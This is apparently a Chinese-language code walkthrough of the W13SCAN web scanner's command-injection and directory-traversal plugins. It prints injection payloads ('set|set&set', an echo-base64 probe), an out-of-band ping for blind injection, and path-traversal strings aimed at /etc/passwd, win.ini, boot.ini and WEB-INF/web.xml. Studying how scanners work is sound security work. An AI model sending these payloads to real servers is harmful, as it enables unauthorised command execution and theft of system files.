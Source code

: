 
定义了 一个字典  
执行的命令 和可以匹配的回显  
如果是windows的机器那么就去掉 echo的  
如果是无回显使用反连平台  
`reverse_payload = "ping -nc 1 {}".format(fullname)`  


```python
url_flag = {
    "set|set&set": [
        'Path=[\s\S]*?PWD=',
        'Path=[\s\S]*?PATHEXT=',
        'Path=[\s\S]*?SHELL=',
        'Path\x3d[\s\S]*?PWD\x3d',
        'Path\x3d[\s\S]*?PATHEXT\x3d',
        'Path\x3d[\s\S]*?SHELL\x3d',
        'SERVER_SIGNATURE=[\s\S]*?SERVER_SOFTWARE=',
        'SERVER_SIGNATURE\x3d[\s\S]*?SERVER_SOFTWARE\x3d',
        'Non-authoritative\sanswer:\s+Name:\s*',
        'Server:\s*.*?\nAddress:\s*'
    ],
    "echo `echo 6162983|base64`6162983".format(randint): [
        "NjE2Mjk4Mwo=6162983"
    ]
}
```

判断是否成功直接就响应中匹配回显  
dnslog并没有做延迟处理 是直接去检验  
这里可以优化 有些payload执行后会延迟一会才能被dnslog接收  



#### directory_traversal 路径穿越插件  
`W13SCAN/scanners/PerFile/directory_traversal.py`  

生成目录穿越的payload  

```python
def generate_payloads(self):
    payloads = []
    default_extension = ".jpg"
    payloads.append("../../../../../../../../../../../etc/passwd%00")
    payloads.append("/etc/passwd")
    if OS.LINUX in self.response.os or OS.DARWIN in self.response.os or conf.level >= 4:
        payloads.append("../../../../../../../../../../etc/passwd{}".format(unquote("%00")))
        payloads.append(
            "../../../../../../../../../../etc/passwd{}".format(unquote("%00")) + default_extension)
    if OS.WINDOWS in self.response.os:
        payloads.append("../../../../../../../../../../windows/win.ini")
        payloads.append("C:\\boot.ini")
        # if origin:
        #     payloads.append(dirname + "/../../../../../../../../../../windows/win.ini")
        payloads.append("C:\\WINDOWS\\system32\\drivers\\etc\\hosts")
    if WEB_PLATFORM.JAVA in self.response.programing:
        payloads.append("/WEB-INF/web.xml")
        payloads.append("../../WEB-INF/web.xml")
    return payloads
```
